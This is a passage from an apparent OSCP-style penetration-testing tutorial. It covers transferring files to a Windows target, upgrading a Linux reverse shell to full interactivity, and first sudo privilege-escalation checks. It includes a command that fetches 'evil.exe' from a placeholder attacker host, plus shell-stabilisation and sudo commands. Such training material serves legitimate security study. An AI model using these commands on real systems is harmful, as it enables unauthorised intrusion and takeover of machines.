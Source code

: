 ```
echo ts.Close >> wget.vbs
```
Then, using your script looks something like this:
```
cscript wget.vbs http://attackerip/evil.exe evil.exe
```
If you’re attacking a windows box and this method isn’t going to work for you, consider trying TFTP or SMB as alternate file transfer methods. If you’re lucky, there may also be a file upload method in a web application.

### Upgrading Reverse Shells to be Fully Interactive
Popping a reverse shell is exciting, but it’s not quite the same as a fully interactive shell. You won’t have tab completion, you can’t run any interactive programs (including sudo), and if you press Ctrl+C, you will exit back to your local box, which sucks. So! Here’s how to upgrade your Linux reverse shell.
```
python -c "import pty; pty.spawn('/bin/bash')"
```
You should get a nicer looking prompt, but your job isn’t over yet. Press Ctrl+Z to background your reverse shell, then in your local machine run:
```
stty raw -echo
fg
```
Things are going to look really messed up at this point, but don’t worry. Just type reset and hit return. You should be presented with a fully interactive shell. You’re welcome.

There’s still one little niggling thing that can happen, the shell might not be the correct height/width for your terminal. To fix this, go to your local machine and run:
```
stty size
```
This should return two numbers, which are the number of rows and columns in your terminal. For example’s sake let’s say this command returned 48 120 Head on back to your victim box’s shell and run the following.
```
stty -rows 48 -columns 120
```
You now have a beautiful interactive shell to brag about. Time to privesc!

## Privilege Escalation — Linux
I’m not going to go into too much detail here because this post is getting too long already, and there’s a lot to talk about! I will show you a few things that I try first though, and then I’ll refer you over to g0tmi1k’s post, which will fill in the gaps.

### Sudo misconfiguration
First things first, if you have found any passwords on the system, try using them to become root by running:
```
sudo su
```
If not try running:
```
sudo -l
```
Sometimes, sudo will allow you to run some commands as root, or become a different user. If the box is configured this way in the OSCP labs, there’s a good chance that this will be your path to root.
